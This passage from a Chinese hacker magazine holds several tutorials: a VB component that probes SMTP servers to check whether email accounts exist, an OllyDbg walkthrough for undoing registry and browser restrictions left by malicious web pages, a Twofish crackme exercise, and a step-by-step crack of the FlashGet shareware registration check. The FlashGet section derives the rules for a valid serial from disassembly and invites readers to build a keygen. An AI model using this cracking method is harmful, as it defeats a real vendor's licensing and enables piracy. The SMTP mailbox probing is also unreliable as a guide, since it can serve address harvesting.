  ' 给该对象 10 秒钟的时间用来连接远程 SMTP 服务器
  oVfab.CheckUserName
  ' 尝试进行 SMTP 会话，测试用户名
End If
......
' 在这里可以用 HTML 格式显示会话记录

oVfab.Clear
' 关闭连接，清除日志，恢复初始状态
```

# 组件文档

方法（表 1）：

| 名称 | 描述 |
|---|---|
| CheckDomain() | 检查邮件地址中的域名部分是不是有效的（存在的）域名 |
| CheckUserName() | 通过 SMTP 协议检查用户名是否是该域中的有效邮件账号 |
| Clear() | 在结束任务之后，关闭连接，清除日志，恢复初始状态 |

## 属性（表2）

| 名称 | 类型 | 可读 | 可写 | 描述 |
|---|---|---|---|---|
| EmailAddr | String | Yes | Yes | 指定要检验的邮件地址 |
| Result | Integer | Yes | No | 从 CheckDomain 和（或）CheckUserName 方法中获得处理结果 |
| SmtpTimeOut | Integer | Yes | Yes | 获得／设置 Timeout（超时——秒计）等待 SMTP 连接 |
| DnsServer | String | Yes | No | 设置域名服务器的 IP 地址（Win9x 中为必选项，Windows NT 中为可选项） |
| RealName | String | Yes | No | 在 CheckUserName() 被执行后，如果 SMTP 服务器提供的话，获得用户的真实名称 |
| DomainName | String | Yes | No | 获得 EmailAddr 中的域名部分 |
| UserName | String | Yes | No | 获得 EmailAddr 中的用户名部分 |
| Log(blnHTML) | String | Yes | No | 检查会话日志（客户端与服务器的所有信息交换），如果可选参数被设为 True，它将重新以 HTML 格式排列断点以便阅读。 |
| SmtpServer | String | Yes | No | 在线中获得完整的邮件交换服务器列表。 |

下面将对主要代码进行分析：

- 1. 检测域名有效性：

```vb
Public Enum EmailVerifiedConst
    ' 创建一个枚举类型
    ' 令 Result 属性来返回最终结果
End Enum

Dim WithEvents oWinsock As Winsock
' 创建一个包含事件的 winsock 对象，事件 DataArrival 在下面被定义

Public Sub CheckDomain()
    Dim oDNS As New SIMPLEDNSRESOLVERLib.SimpleDNSClient
    ' 基于 SIMPLEDNSRESOLVERLib 类库对象 oDNS
    intPos = InStr(strEmailAddr, "@")
    If intPos = 0 Then
        Err.Raise vbObjectError + 699
        Exit Sub
    End If
    strUserName = Left(strEmailAddr, intPos - 1)
    strDomainName = Mid(strEmailAddr, intPos + 1)

    oDNS.Separator = "."
    intResult = EmailVerifiedConst.vfabInvalidDomain
    strLog = strLog & "DNS --> Query MX records for " & strDomainName & vbCrLf
```

```vb
On Error Resume Next    ' 发生错误继续

oDNS.GetEmailServers strDomainName, strSmtpServers
' 利用 oDNS 对象的 GetMailServers 方法给 strSmtpServers 赋值

If Err <> 0 Then
    Err.Raise vbObjectError + 698, Err.Description
End If

strLog = strLog & "DNS <-- " & strSmtpServers & vbCrLf
' 进行日志记录

If strSmtpServers <> "" Then
    intResult = EmailVerifiedConst.vfabValidDomain
    ' 以枚举 EmailVerifiedConst 中的成员 vfabValidDomain 赋值给 intResult
End If
End Sub
```

- 2. 检测用户名的有效性：

详细代码见光盘杂志相关栏目中“email.txt”文件，按文章名查找即可。

- 3. 关于 Token 函数

由于篇幅有限，这里就不能再对 Token 函数的定义进行详细的解释了。但是需要指出的是，在程序的源码中对 Token 函数的定义有一处小错误，就是

```vb
If Mid(strInput, i, intLen) = strSep Then
    intOccur = intOccur - 1
```

这一句，原来的程序将最后一个字母 i 写为 1。经过分析和测试，无法完成函数的任务要求，所以在这里指出，希望读者注意。

## 总结

这个组件的作用是在 Web 页面上用来对邮件地址的有效性进行检测。当然主要是应用于 ASP，可能 ASP 对对象的支持优于其他，易于编写，而且 VBScript 能在其间发挥更出色的作用。在对使用 Socket 方面进行连接也用比较传统的方法，具有一定的代表性。详细代码可以参考光盘。

这个应用组件在很大程度上依赖于 Emmanuel Kartmann 编写的 Simple DNS Resolver。请到他的主页上去查找更多关于 DNS 构建和该组件的细节。

icefire：Cracker 是一种很特别的群体，在加密与解密的对抗中，Cracker 扮演一种反面角色，他们喜欢深入系统的底层、喜欢解除软件限制。而外界对 Cracker 有天然的偏见，往往把 Cracker 当破解者，很多人把 Cracker、研究 Crack 技术的人及破解者混为一谈。除了对这种身份的误解外，人们往往对 Cracker 的思维更是缺乏了解，对于他们如何解除一种软件的限制更是缺乏一种认识，由此更加深了对 Crack 的神秘……

# 当 Hacker 遇上 Cracker

## 实例解说 Cracker 思路

**难度等级：** 中  
**适合对象：** 所有爱好 Cracker 技术的朋友  
**前置知识：** 注册表知识、OllyDbg 的基本使用、基本跟踪技巧

文／重剑 [NukeGroup]

## 由恶意网页说起

现在很多黑客通过在网页上嵌入恶意代码，使浏览者在登录网站时会不知不觉中招：下载木马或病毒、修改注册表、修改 IE 浏览器等手段。对于这种可恶的手法，Cracker 会怎么处理呢？如果这些招数是第一次使用，那么如何找到有效的解决方法呢？如果这些东西撞到 Cracker 面前，在 Cracker 面前就会引起一段典型的 Cracker 思维式的解决方法：首先 Cracker 会想方设法进入代码区，想方设法获得相关的处理代码（真像《黑客帝国》电影中的进入母体），最常用的手法就是通过静态反汇编器或动态调试器获得相关的代码。其次就是根据表面的一些蛛丝马迹，通过顺藤摸瓜的方式得到关键处理代码。由于接触到的代码多是汇编代码，所以 Cracker 多会有一种猜测或叫预测的思维，通过阅读汇编代码了解该段代码的大概功能——这和黑客显然是完全不同的，黑客会考虑这段代码是利用了什么漏洞？用什么方式实现？调用了什么东西？甚至这个恶意的服务器能不能入侵？……

## 通过 Cracker 的方式解决恶意网页

现在开始看看 Cracker 是怎么清除恶意代码的。由于木马或病毒会用杀毒软件监测到，会直接杀掉，而修改注册表、修改 IE 浏览器等的东西必须用其它方法解除（对于用工具解除本文不讲述），好，就用 Cracker 的方法解除吧。

由于注册表被限制了，那么就用 OllyDbg（这个东西就是进入程序的代码区）载入 regedit.exe（这个程序在 Windows 系统目录下）程序吧，看看注册表是怎么被禁止的。

```asm
010073B4  PUSH EBX                 ; /hWnd
010073B5  CALL EDI                 ; \BringWindowToTop
010073B7  PUSH EBX                 ; /hWnd
010073B8  CALL DWORD PTR DS:[<&USER32.SetForegroundWindow>] ; \SetForegroundWindow
010073BE  JMP regedit.01007497
010073C3  CALL regedit.010075ED
==> 关键 call，请看下面。
010073C8  TEST EAX,EAX
==> 测试是否禁用
010073CA  JE SHORT regedit.010073E6
==> 这里关键跳
010073CC  PUSH 10
010073CE  PUSH 10
010073D0  PUSH 28
010073D2  PUSH EBP
010073D3  PUSH DWORD PTR DS:[104C3E0]
010073D9  CALL regedit.010078B1
==> 显示注册表被禁止的信息
010073DE  ADD ESP,14
010073E1  JMP regedit.01007497
```

一载入程序后会停在程序入口点，首先是判断程序是否已经运行，然后就到了上面的代码，这段代码是判断注册表是否禁用，如是禁用则显示出错信息，那么我们就看出错信息的前一个 call，即为 `CALL regedit.010075ED`，F8 单步进入看看：



可以看到这段代码是读注册表中的“DisableRegistryTools”项值，如为 1 则禁用注册表。恢复方法：按上面信息把 `0100760C JNZ SHORT regedit.01007631` 改为 `JMP` 即可永久解除禁用注册表，也可以在进入注册表后，在：

```text
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System
```

把 DisableRegistryTools 的值改为 0 即可。

到此已经解除了注册表禁用，但在 IE 浏览器中的“Internet 选项”中还是有禁用更改修改主页，更可恶的是恶意代码还设置一个默认的起始网址。现在来看看怎么来解除它：

用 OllyDbg 载入 IEXPLORE.EXE（IE 浏览器），由于程序更改的按钮都变灰了，那就用 EnableWindow 下断来到这里：



可以看到在 `022AFE39 JE SHORT inetcpl.022AFE6B` 这句，如果改跳，则会解除变灰了，那我们就看看前面比较那一句 `022AFE33 CMP DWORD PTR DS:[22BE0EC], ESI`，关键就在这里了。看在 22BE0EC 处的值为 1，应该为 0 才正常，那么在 22BE0EC 的地址处下硬件断点，重新运行来到这里：



可以看到 [ESI+34] 处的值为 22BE0EC，这正是 EAX 对 22BE0EC 处的地址进行赋值。看一下前后的语句，内容都是 IE 中一些关键选项，可以大概推测这里进行全局变量的初始化，我们看看上面的语句有什么：

```asm
022B294E  PUSH 0
022B2950  PUSH inetcpl.022A4058
UNICODE "Software\Policies\Microsoft\Internet Explorer\Control Panel"
022B2955  PUSH 80000001
022B295A  CALL DWORD PTR DS:[<&SHLWAPI.#125>]
022B2960  TEST EAX,EAX
022B2962  JNZ inetcpl.022B2BC1
022B2968  PUSH ESI
022B2969  PUSH inetcpl.022A40D0
UNICODE "GeneralTab"
```

进注册表看一下：

```text
[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel]
```

"HomePage"=dword:00000001

这里的值为 1，只要把 “HomePage”=dword:00000001 值改为 0 即可解除设置主页的限制。至此主要的难点已经差不多都搞定了，不过还有一些手尾，清除 IE 的标题显示其它信息，进注册表搜索一下这些信息，可以在 `HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main` 中找到，那么把这个 Main 项删掉吧。另外还有一处一开机会自动打开一个网页，还是在注册表中搜索，会在 Run 项目下会有一个自启动的东西，删掉即可。到这里 IE 完全恢复正常。可以看到那些恶意网页只能对注册表作一些修改。

## § Cracker 的思维 §

从上面实例可以看到，任何通过 CPU 的代码都可以捕获，Cracker 的方法发出的思维是那么独特而且又非常有效，所以如果想通过系统来隐藏信息是完全枉然。在加密与解密的对抗中，起主导作用的是思路的对抗，只要人们还有思维，这种对抗就不会停止——作为喜欢黑客的你，遇到这个问题会怎么处理呢？

> 编后感想
>
> 刚拿到这个文章的时候我想了很久，本期另类的文章已经很多，而这篇又是另类中的另类，发还是不发呢？后来问了 wtf，他说：“另类就说明有所新思维，虽然说不定对错，但是为了新的东西去尝试和研究本身就是对技术的尊重，为什么不发？——另类本来就无所谓对错！”对！为什么不发？为什么不去另类？为什么不去尊重技术和自己？……

icefire：这是 Nuke Group 为《黑客防线》撰写的教程系列之第六篇，这期将讲 twofish 算法的分析和破解思路，光盘所附的 crackme 是用 Visual C 7.0 编写，纯 API 编写，可读性非常好，没有像 VB 代码那样非常烦杂。由于是教程，目的是介绍加密算法，故在其它方面没有设卡，没有反跟踪、没有加壳等。本 crackme 的目的是通过登录窗口，进入主窗口，不过可不能通过爆破的方式来进入主窗口，因为程序一部分代码经过 twofish 加密处理了。那么 crackme 是怎么实现防爆破的呢？我们又应该怎么样才能发现它的漏洞，一举击破？让我们来看看本文——

# Cracker 初级教程之 Twofish 算法破解

- 难度等级：中
- 适合对象：密码爱好者，Cracker 爱好者
- 前置知识：反汇编器基本知识、基本跟踪知识等

文／图 童剑 [NukeGroup]

## Twofish 知识快速入门

先不要急于打开 crackme 来分析，还是先作些快速入门知识（熟悉 twofish 的朋友可以不用看这一节）。

由于程序用到 twofish（crackme 作者告诉我们的），我们先来仔细介绍一下 twofish 的算法。1999 年八月，美国国家标准技术局（NIST）从第一回合十五个候选演算法中，选出五个演算法，作为第二回合评选的对象，Twofish 是其中之一。Twofish 是一种 128 位元长度的块状密码器，其密钥的长度是可变的，故可以配合 AES 之要求提供 128、192 和 256 位密钥长度之三种模式。Twofish 采用 16 回合类似 Feistel network 结构的方式来实现，每一回合之主要工作是执行一个 bijective F 函式，由 4 个子密钥相依（key-dependent）8/8 位元的 S-boxes、1 个作用在 GF(2^8) 的固定 4×4 大小之最大距离可分隔矩阵（maximum distance separable matrix）、1 个 pseudo-Hadamard 转换、一些位元旋转（bit rotation），以及精心设计的子密钥排程（key schedule）等部分所组成。其设计之目标是兼具安全性与效能之考量。

Twofish 加密说明：图 1 显示 twofish 的加密全过程，包括十六个 Feistel 结构回合及输入输出的 whitening 动作。加密过程是一开始先将 128 位的明文分成 4 个 32 位长的数组（P0，P1，P2，P3），并分别与长度是 32 位元的四个子密钥 K0～K3 做 XOR 运算，得到四组结果，此即输入 whitening 步骤。接着从事十六个回合的加密动作。首先，将 R[r,1] 左移 8 个位元后，再分别将 R[r,0] 与 R[r,1] 的结果输入到 g 函数，得到 T0 与 T1。

```text
T[r,0] = g(R[r,0])
T[r,1] = g(ROL(R[r,1], 8))    r = 0,1,...,15

r 代表目前的回合数。
```

其次是将 T[r,0] 与 T[r,1] 输出经由 PHT 之后，再分别加上子密钥 K[2r+8] 与 K[2r+9]，得到 F[r,0] 与 F[r,1]。

```text
F[r,0] = (T[r,0] + T[r,1] + K[2r+8]) mod 2^32
F[r,1] = (T[r,0] + 2T[r,1] + K[2r+9]) mod 2^32
```

接着再将 F[r,0] 与 F[r,1] 分别和 R[r,2] 与 (R[r,3]<<<1) 做 XOR，最后将 R[r,2] 再右移 1 个位元。如此便得到下一回合的输入资料。

```text
(F[r,0], F[r,1]) = F(R[r,0], R[r,1])
R[r+1,0] = ROR(R[r,2] ^ F[r,0], 1)
R[r+1,1] = ROL(R[r,3], 1) ^ F[r,1]
R[r+1,2] = R[r,0]
R[r+1,3] = R[r,1]
```

在最后一个回合之后，则进行输出 whitening 步骤，亦即将输出的四组 32 位元资料分别和 K4～K7 做 XOR，如下式：

```text
C[i] = R[16,(i+2) mod 4] ^ K[i+4]    i = 0,...,3
```

其中 ROR 与 ROL 分别代表向右及向左移位的运算。（C0，C1，C2，C3）代表 16 个位元组的输出密文。



图 1：Twofish 的加密流程

Twofish 子密钥会产生 40 个长度是 4 位元组的子密钥（K0，...，K39），以及 4 组与密钥相关之 S-boxes。其中与密钥相关之 S-boxes 是供给函式 g 使用。Twofish 接受密钥的长度有 128、192、256 位元三种。Twofish 最大的特点就是产生的子密钥非常多，长度达到 4～5K。

Twofish 的解密过程与加密的类似，都是采用相同十六回合动作，主要用到的 F 函数也是一样的。不过解密时所有子密钥的使用顺序与加密时相反；而且每一回合的动作略有修改。限于篇幅，本文不对 twofish 的算法作详细的展开说明，有兴趣的读者可以登录 twofish 的主页参考 twofish 详细的资料说明及相关的源代码：http://www.schneier.com/twofish.html。

# Crackme 实例分析

上面说了那么多，不知大家有没有头晕，不过我们还是来实例分析一下，仔细跟踪一下代码，了解一下整个过程就会加深了解了。

# 详细代码分析请看光盘“杂志相关”栏目

进 `CALL crackme4.004022B0` 及 `crackme4.004054E0` 看一下，可以发现非常复杂，这两个就是初始化密钥及解密处理，有兴趣的读者可以参照上面的介绍跟入看看。

# 解析“网际快车”

icefire：看过了前面的注册码算法，感觉是不是有点想要深入分析？这篇文章我们就来为大家剖析最常见的下载软件，看看它的注册算法是如何的“高深”？你也可以实际操作哦！



## 破解与算法

大家一定对网际快车这个共享软件不会陌生吧？当你要是从网上搜索到你的最爱，希望在短时间内将它下到你的机子上，就得用到它了。但是共享软件嘛，时不时地就会给你找一点儿小小的麻烦。当你下得正起劲的时候，它却给你跳出个注册框来。于是，为了把除掉这个眼中钉、肉中刺，小弟决定破了它！

破解工具我只信赖 W32dasm 和 TRW2000，他们一直是我破解的最爱。废话少说，好多的 mmtp 等着我下呢！

打开网际快车随便输入一些注册信息，够狠，连一个提示信息都没给留下，一定是将注册信息保存到了注册表中的哪个角落里了。于是来到注册表中找啊找，原来它在 HKEY_CURRENT_USER\Software\JetCar\JetCar\General 子键中，里面有一个敏感的单词“RegPass”，这下可好了，对于这种注册码比较可是最好玩了。

```asm
bpx regqueryvalueexa do "db *(esp+8)"
```

“db *(esp+8)”，这个 API 函数专门对付那些将注册信息藏到注册表的某一键值下的注册方式。接下来我们就一直按 F5 键，让程序自己运行。在中断几次后，我们将注意力放到 TRW2000 的右上角处，直到我们看见在注册表中的那个 RegPass，再按几次 F5 键，然后下 bc*，pmodule 回到主程序的领空。这时就耐心地按 F10 键吧，不一会儿我们就来到了如下代码处：

```asm
0167:0041C5D7  PUSH  EAX
0167:0041C5D8  MOV   ECX,EBX
0167:0041C5DA  MOV   [ESP+3C],EDI
0167:0041C5DE  CALL  0049E6AF
0167:0041C5E3  LEA   ECX,[ESP+14]
0167:0041C5E7  MOV   [ESP+38],EBP
0167:0041C5EB  CALL  0049E576
0167:0041C5F0  MOV   EDX,[ESI]
0167:0041C5F2  MOV   EAX,[EDX-08]
0167:0041C5F5  TEST  EAX,EAX
0167:0041C5F7  JZ    NEAR 0041C739
邮件地址为空的就跳到 0041C739 处

0167:0041C5FD  MOV   EAX,[EBX]
将我刚才随便输入的序列号放到 EAX 中

0167:0041C5FF  MOV   ECX,[EAX-08]
0167:0041C602  TEST  ECX,ECX
0167:0041C604  JZ    NEAR 0041C739
同样，如果序列号是空的一样跳走

0167:0041C60A  MOV   ECX,ESI
0167:0041C60C  CALL  0049A227
0167:0041C611  MOV   ECX,ESI
0167:0041C613  CALL  0049A1DB
0167:0041C618  MOV   ECX,[ESI]
0167:0041C61A  CMP   DWORD [ECX-08],BYTE +05
+05 检查 email 地址长度是否小于 5
0167:0041C61E  JNG   NEAR 0041C739

0167:0041C64E  CALL  0049A227
0167:0041C653  MOV   ECX,EBX
0167:0041C655  CALL  0049A1DB
得到我输入的序列号

0167:0041C65A  MOV   EDX,[EBX]
将我输入的序列号赋值给 EDX

0167:0041C65C  MOV   EAX,[EDX-08]
将注册码长度送入 EAX 中

0167:0041C65F  CMP   EAX,BYTE +2C
比较序列号长度是否为 44 位

0167:0041C662  JNZ   NEAR 0041C739
如果不等于 44 就跳到 0041C739。

0167:0041C668  PUSH  DWORD 004F147C
0167:0041C66D  MOV   ECX,EBX
0167:0041C66F  CALL  00499E42
比较序列号前 4 位是否为 fgc-

0167:0041C674  TEST  EAX,EAX
0167:0041C676  JNZ   0041C67E
不是跳到 041C67E

0167:0041C678  MOV   [ESP+10],EDI
0167:0041C67C  JMP   SHORT 0041C696
0167:0041C67E  PUSH  DWORD 004F1474
0167:0041C683  MOV   ECX,EBX
0167:0041C685  CALL  00499E42
继续比较序列号前 4 位是否为 fgc-

0167:0041C68A  TEST  EAX,EAX
0167:0041C68C  JNZ   NEAR 0041C739
不是就到 0041C739，注册失败
```

经过初步跟踪和一步一步的分析，我们可以发现，注册信息必须符合以下条件：

- email 地址长度必须多于 5 位；
- 序列号长度必须为 44 位；
- 前 4 位必须为 fgc- 四个字符。

有一个条件不符合，注册就失败。

好了，知道上面的条件就好说了。我们再一次输入注册码，一定要注意上面的那几条注意事项哦！然后运行 TRW2000，来到此处：

```asm
0167:0041C692  MOV   [ESP+10],EAX
0167:0041C696  PUSH  BYTE +2C
0167:0041C698  MOV   ECX,EBX
0167:0041C69A  CALL  0049E9A6
获得我们刚才输入的序列号
0167:0041C69F  MOV   EBP,EAX
```

经过一段漫长的 F10，我们来到这里：

```asm
0167:0041C6D5  MOV    CL,[ESP+1E]
将序列号的第 7 位赋值给 CL

0167:0041C6D9  MOV    DL,AH
将序列号的第 6 位赋值给 DL

0167:0041C6DB  XOR    ECX,EDX
EDX 与 ECX 进行异或运算

0167:0041C6DD  MOVSX  EDX,BYTE [ESP+1F]
将序列号第 8 位赋值给 EDX

0167:0041C6E2  AND    ECX,BYTE +7F
将 ECX 与 127 进行与运算

0167:0041C6E5  IMUL   ECX,EDX
ECX 乘以 EDX

0167:0041C6E8  MOVSX  EAX,AL
将序列号的第 5 位赋值给 EAX

0167:0041C6EB  ADD    ECX,EAX
ECX 加上第 5 位

0167:0041C6ED  MOV    ESI,ECX
0167:0041C6EF  MOV    EAX,[ESP+10]
......
0167:0041C71D  JNZ    0041C730
0167:0041C71F  JMP    SHORT 0041C725
0167:0041C721  TEST   EDX,EDX
如果不为 0 则跳到 0041C730

0167:0041C723  JNZ    0041C730
0167:0041C725  INC    EDI
0167:0041C726  CMP    EDI,BYTE +02
0167:0041C729  JNL    0041C74E
0167:0041C72B  JMP    0041C6A8
如果为 0 则跳走
```

这段代码是一段计算注册码的重要过程。经过分析得知：将序列号第 7 位与 8138240 加第 6 位的和做异或运算后的值，再与 127 进行与运算，之后再和第 8 位去相乘，完后再加第 5 位的和与 107 相除，如果不能够整除就失败！到这里我们已经成功一半了，还是和刚才一样，再一次地进行注册，运行 TRW2000 来到下面的代码处：

```asm
0167:0041C6BC  MOVSX    ESI,BYTE [ESP+1E]
将序列号第 11 位赋值给 ESI
0167:0041C6C1  MOVSX    EDX,BYTE [ESP+1F]
将序列号第 12 位赋值给 EDX
0167:0041C6C6  MOVSX    ECX,AL
将序列号第 10 位赋值给 ECX
0167:0041C6C9  AND      ESI,ECX
将 ESI 与 ECX 进行与运算
0167:0041C6CB  IMUL     ESI,EDX
将 ESI 乘以 EDX
0167:0041C6CE  MOVSX    EAX,AL
将序列号第 9 位赋值给 EAX
0167:0041C6D1  ADD      ESI,EAX
将 ESI 与 EAX 相加
0167:0041C6D3  JMP      SHORT 0041C6EF
这时将跳到下面
0167:0041C6EF  MOV      EAX,[ESP+10]
0167:0041C6F3  TEST     EAX,EAX
0167:0041C6F5  JZ       0041C703
如果 EAX 为 0 就会失败
0167:0041C6F7  MOVSX    ECX,BYTE [004EF643]
0167:0041C6FE  CMP      EDI,BYTE +02
0167:0041C701  JZ       0041C70A
0167:0041C703  MOVSX    ECX,BYTE [EDI+004EF640]
```

```asm
0167:0041C70A  MOV      EAX,ESI
将 ESI 的值赋给 EAX
0167:0041C70C  XOR      EDX,EDX
这时 EDX 已经为 0
0167:0041C70E  DIV      ECX
0167:0041C710  MOV      EAX,EDI
0167:0041C712  SUB      EAX,BYTE +00
0167:0041C715  JZ       0041C721
0167:0041C717  DEC      EAX
0167:0041C718  JNZ      0041C725
0167:0041C71A  CMP      EDX,BYTE +08
比较余数是否等于 8
0167:0041C71D  JNZ      0041C730
如果不相等就失败
0167:0041C71F  JMP      SHORT 0041C725
跳到注册成功的地方
```

看到了吗？只要将注册码的第 11 位与第 10 位进行与运算的值与第 12 位相乘，然后再加上第 9 位，去除以 65，如果余数为 8，那么就该恭喜你了，你将注册成功——头都看大了，呵呵，不过总算是成功了。

这样经过三次的分段跟踪，我们就得到了正确的注册码。其实到了这里我们就可以做一个注册机了，但是写这篇文章的目的还是想和大家一起来分析这个软件注册码的算法，所以，注册机就留给那些酷爱编程的朋友吧，你懂了吗？

- 总结思路出来了，要 crack 有两种方法：
